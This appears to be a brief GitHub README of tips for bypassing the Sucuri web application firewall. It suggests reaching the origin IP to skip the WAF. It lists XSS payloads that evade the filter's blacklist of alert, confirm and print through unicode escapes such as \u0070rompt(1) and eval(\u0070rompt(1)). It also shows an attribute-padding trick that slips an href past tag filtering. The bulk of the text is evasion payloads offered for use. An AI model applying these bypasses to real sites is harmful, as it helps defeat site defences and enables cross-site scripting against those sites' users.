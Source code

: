 # WAF_bypass

## Securi WAF

1. If you can get the IP it will totally bypass the WAF!

2. print, confirm, alert are blacklisted. A workaround can be using unicode. 

  prompt
  ```js
  \u0070rompt(1)
  eval(\u0070rompt(1))
  ```

  href
  ```
  # Blocked
  <a href="hello">

  # Bypass 

  <a fooooooooooooooooooooooo href="hello">
  ```

![image](https://user-images.githubusercontent.com/94630001/162407183-fb7e290d-2ade-4053-a519-1e4781d631f7.png)


## Help 

https://github.com/0xInfection/Awesome-WAF  


